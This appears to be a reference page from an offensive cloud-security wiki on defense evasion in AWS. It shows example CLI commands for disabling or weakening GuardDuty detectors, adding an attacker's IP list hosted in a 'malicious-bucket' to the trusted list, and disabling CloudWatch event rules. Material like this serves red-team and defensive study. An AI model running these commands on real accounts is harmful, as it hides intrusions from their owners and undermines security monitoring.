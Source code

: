 ```yaml
---
author: Ben Leembruggen
title: Modify GuardDuty Configuration
description: Modify existing GuardDuty configurations in the target account to hinder alerting and remediation capabilities.
---
```


When an account has been successfully compromised, an attacker can modify threat detection services like GuardDuty to reduce the likelihood of their actions triggering an alert. Modifying, as opposed to outright deleting, key attributes of GuardDuty may be less likely to raise alerts, and result in a similar degradation of effectiveness.  The actions available to an attacker will largely depend on the compromised permissions available to the attacker, the GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html). 

## GuardDuty
Where GuardDuty uses a delegated admin or invite model, features like detector configurations and IP Trust lists are centrally managed, and so they can only be modified in the GuardDuty administrator account. Where this is not the case, these features can be modified in the account that GuardDuty is running in.

---
### Misconfiguring the Detector
An attacker could modify an existing GuardDuty detector in the account, to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector altogether.  
- Removing Kubernetes and s3 as data sources, which removes all [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html).  
- Increasing the event update frequency to 6 hours, as opposed to as low as 15 minutes.


#### Required Permissions to execute
- guardduty:ListDetectors
- guardduty:UpdateDetector

Example CLI commands
```
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```
---
### Modifying Trusted IP Lists
An attacker could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html), including their own IP on the list.  Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them. 

*DNS findings are exempt from the Trusted IP list.*

#### Required Permissions to execute
- guardduty:ListDetectors
- guardduty:ListIPSet
- iam:PutRolePolicy
- guardduty:CreateIPSet (To create new list)
- guardduty:UpdateIPSet (To update an existing list)

*Depending on the level of stealth required, the file can be uploaded to an s3 bucket in the target account, or an account controlled by the attacker.*


Example CLI commands
```
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

---
### Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch Events on a 5 minute cadence.  Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of findings, especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in the member account. 

!!! Note  
    In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

#### Required Permissions to execute
- event:ListRules
- event:ListTargetsByRule
- event:PutRule
- event:RemoveTargets

Example CLI commands
```
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
--event-pattern "{\"source\":[\"aws.guardduty\"]}" \
--state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
--event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets --name guardduty-event \
--ids "GuardDutyTarget"
```
